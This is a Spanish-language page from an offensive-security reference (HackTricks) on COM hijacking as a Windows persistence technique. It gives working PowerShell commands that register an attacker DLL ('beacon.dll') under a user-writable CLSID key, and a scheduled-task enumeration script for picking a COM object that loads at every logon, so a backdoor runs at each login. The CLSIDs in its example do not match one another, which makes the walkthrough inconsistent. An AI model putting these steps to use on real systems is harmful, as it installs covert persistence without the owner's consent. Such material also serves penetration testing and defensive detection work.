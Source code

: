 # COM Hijacking

{{#include ../../banners/hacktricks-training.md}}

### Búsqueda de componentes COM no existentes

Dado que los valores de HKCU pueden ser modificados por los usuarios, **COM Hijacking** podría ser utilizado como un **mecanismo persistente**. Usando `procmon`, es fácil encontrar registros COM buscados que no existen y que un atacante podría crear para persistir. Filtros:

- Operaciones de **RegOpenKey**.
- donde el _Resultado_ es **NOMBRE NO ENCONTRADO**.
- y el _Path_ termina con **InprocServer32**.

Una vez que hayas decidido qué COM no existente impersonar, ejecuta los siguientes comandos. _Ten cuidado si decides impersonar un COM que se carga cada pocos segundos, ya que eso podría ser excesivo._
```bash
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\beacon.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```
### Componentes COM del Programador de Tareas que se pueden secuestrar

Las Tareas de Windows utilizan Disparadores Personalizados para llamar a objetos COM y, dado que se ejecutan a través del Programador de Tareas, es más fácil predecir cuándo se activarán.

<pre class="language-powershell"><code class="lang-powershell"># Mostrar CLSIDs de COM
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
if ($Task.Actions.ClassId -ne $null)
{
if ($Task.Triggers.Enabled -eq $true)
{
$usersSid = "S-1-5-32-545"
$usersGroup = Get-LocalGroup | Where-Object { $_.SID -eq $usersSid }

if ($Task.Principal.GroupId -eq $usersGroup)
{
Write-Host "Nombre de la Tarea: " $Task.TaskName
Write-Host "Ruta de la Tarea: " $Task.TaskPath
Write-Host "CLSID: " $Task.Actions.ClassId
Write-Host
}
}
}
}

# Salida de Ejemplo:
<strong># Nombre de la Tarea:  Ejemplo
</strong># Ruta de la Tarea:  \Microsoft\Windows\Example\
# CLSID:  {1936ED8A-BD93-3213-E325-F38D112938E1}
# [más como el anterior...]</code></pre>

Al revisar la salida, puedes seleccionar una que se va a ejecutar **cada vez que un usuario inicie sesión**, por ejemplo.

Ahora, buscando el CLSID **{1936ED8A-BD93-3213-E325-F38D112938EF}** en **HKEY\_**_**CLASSES\_**_**ROOT\CLSID** y en HKLM y HKCU, generalmente encontrarás que el valor no existe en HKCU.
```bash
# Exists in HKCR\CLSID\
Get-ChildItem -Path "Registry::HKCR\CLSID\{1936ED8A-BD93-3213-E325-F38D112938EF}"

Name           Property
----           --------
InprocServer32 (default)      : C:\Windows\system32\some.dll
ThreadingModel : Both

# Exists in HKLM
Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize

Name                                   Property
----                                   --------
{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1} (default) : MsCtfMonitor task handler

# Doesn't exist in HKCU
PS C:\> Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
Get-Item : Cannot find path 'HKCU:\Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}' because it does not exist.
```
Entonces, solo puedes crear la entrada HKCU y cada vez que el usuario inicie sesión, tu puerta trasera se activará.

{{#include ../../banners/hacktricks-training.md}}
